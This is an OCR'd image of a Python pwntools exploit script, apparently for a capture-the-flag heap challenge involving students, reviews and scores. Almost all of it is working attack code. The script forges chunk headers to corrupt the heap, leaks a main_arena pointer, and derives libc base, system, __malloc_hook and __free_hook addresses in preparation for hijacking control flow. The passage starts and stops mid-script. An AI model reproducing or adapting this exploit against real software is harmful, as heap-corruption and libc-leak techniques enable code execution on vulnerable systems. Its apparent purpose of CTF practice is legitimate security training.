 ```
	current_sid = sid

def print_status():
	print('students: ', end='')
	print(students)
	print('reviews: ', end='')
	print(reviews)
	print('chunk_addr: ', end='')
	print(chunk_addr)
	print('scores: ', end='')
	print(scores)
	print('current_role: ' + str(current_role))

io.sendlineafter(b'role: <0.teacher/1.student>: ', b'0')
for i in range(7):
	add_student(1)

change_role(0)
write_review(5, 0xF0, 'deadbeef')
write_review(6, 1024-16, 'deadbeef')

write_review(4, 0x200, b'a' * 0xF0 + p64(0x500) + p64(0x21) + p64(0) * 3 + p64(0x21), True)

change_role(1)
change_sid(4)
pray()

change_role(0)
give_score()	

change_role(1)
change_sid(4)
check_review(0x39 + 0x50)
chunk_addr[4] += 0x200

change_role(1)
change_sid(6)
pray()

change_role(0)
give_score()	

change_role(1)
change_sid(6)
check_review(0x48 + 0x100 + 1)

change_role(0)
call_parent(6)

change_role(1)
change_sid(5)

io.sendlineafter(b'choice>> ', b'2')
io.recvuntil(b'here is the review:\n')
main_arena = u64(io.recv(6) + b'\x00\x00') - 96
libc_base = main_arena - (libc.symbols['__malloc_hook'] + 0x10)
sys_addr = libc_base + libc.symbols['system']		
malloc_hook = libc_base + libc.symbols['__malloc_hook']
free_hook = libc_base + libc.symbols['__free_hook']

change_role(0)
add_student(1)

```